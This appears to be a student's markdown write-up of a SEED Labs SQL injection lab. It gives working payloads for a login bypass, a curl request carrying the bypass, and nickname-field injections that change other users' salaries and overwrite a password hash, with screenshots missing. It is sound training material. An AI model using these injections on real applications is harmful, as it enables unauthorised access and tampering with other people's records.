





# SQL Injection Lab

## Task 1



## Task 2

### Task 2.1

#### Input

``` SQL
admin' #
```

#### Output



### Task 2.2

#### Input

``` curl
curl ’www.seed-server.com/unsafe_home.php?username=admin%27%20%23’
```

#### Output




### Task 2.3

When I entered input below into the USERNAME Field,

``` SQL
admin'; UPDATE credential SET PhoneNumber = '1' WHERE Name = 'Alice' #
```

error occurs like below.



According to the php official website[[link]](https://www.php.net/manual/en/mysqli.query.php),
mysqli::query() can only execute a single SQL statement.

## Task 3

### Task 3.1

In the nickname field, type in input below

``` SQL
', Salary = 'Amount you want' WHERE Name = 'Alice' #
```

#### Input

``` SQL
', Salary = '100000' WHERE Name = 'Alice' #
```

#### Output



### Task 3.2

Do same thing as Task 3.1, but change the name 'Alice' to 'Boby'

``` SQL
', Salary = 'Amount you want' WHERE Name = 'Boby' #
```

#### Input

``` SQL
', Salary = '1' WHERE Name = 'Boby' #
```

#### Output


### Task 3.3

By reversing encrypted password, I could figure out that
Boby's original password is 'seedboby'.

After I typed in input below in the nickname field,

``` SQL
', Password = sha1('Boby') WHERE Name = 'Boby' #
```

I no longer could login via 'seedboby', but could login using 'Boby'.
